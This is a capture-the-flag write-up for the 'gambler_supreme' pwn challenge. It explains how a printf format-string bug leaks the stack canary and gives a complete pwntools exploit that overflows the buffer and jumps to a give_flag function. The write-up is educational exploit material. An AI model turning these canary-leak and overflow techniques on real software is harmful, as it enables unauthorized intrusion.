 ## Question 

The Casino, but with a cool new feature! \

You must create a flag.txt in the same folder as the binary for it to run. \
nc ctf.b01lers.com 9201 \

Author: robotearthpizza \
Difficulty: Hard \

[gambler_supreme](gambler_supreme)

## Solution

The binary has NX, Stack, Canaries, and Full RELRO enabled. 

```
$ pwn checksec ./gambler_supreme'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We see that the binary calls printf() on user-specified input without a format specifier. 

```
004016c7          printf("Your guess: ");
004016d8          printf(&var_38);
004016e2          putchar(0xa);
```

This allows us to leak the canary. On quick check, we can identify that it is at offset 13.

```
$ python3 pwn-gamblers_supreme.py BIN=./gambler_supreme LEAK | grep 00
    PIE:      No PIE (0x400000)
b'%13$p' b' 0xbfcd82868a531500\n'
b'%19$p' b' 0x1e7963000\n'
b'%28$p' b' 0x44009a0ed828d773\n'

$ gdb ./gambler_supreme 

pwndbg> r
Guess me a string of length 7 with lowercase letters: %13$p
Your guess: 0xd3813a8e16bdf900

pwndbg> canary
Canary    = 0xd3813a8e16bdf900 (may be incorrect on != glibc)
```

The binary also suffers from a buffer overflow. To succesfully exploit, we can cause the buffer overflow, overwrite the canary, and redirect return address to the ```give_flag``` function.

```python
from pwn import *
import sys

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''


def find_canary():
    print("LEAK")
    for i in range(50):
        p = process(args.BIN, level="error")
        p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive): ')
        p.sendline(b'7')
        p.recvuntil(b'Guess me a string of length 7 with lowercase letters:')
        leak = b'%%%i$p' % i
        p.sendline(leak)
        p.recvuntil(b'Your guess:')
        print(leak, p.recvline())
        p.close()


def start():
    if args.LEAK:
        find_canary()
        sys.exit(0)

    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ctf.b01lers.com', 9201)
    else:
        return process(e.path)


p = start()


def setup():
    p.recvuntil(b'Enter a difficulty between 1 and 7 (inclusive)')
    p.sendline(b'7')


def leak_canary():
    p.recvuntil(b'Guess me a string of length 7 with lowercase letters')
    p.sendline(b'%13$p')
    p.recvuntil(b'Your guess:')
    canary = int(p.recvline().strip(b'\n'), 16)
    return canary


def smash_stack(canary):
    p.recvline(b'Guess me a string of length 7 with lowercase letters:')
    pad = cyclic(40)
    chain = p64(canary)
    chain += p64(0xdeadbeef)
    chain += p64(e.sym['give_flag'])
    p.sendline(pad+chain)


setup()
canary = leak_canary()
smash_stack(canary)

p.interactive()
```
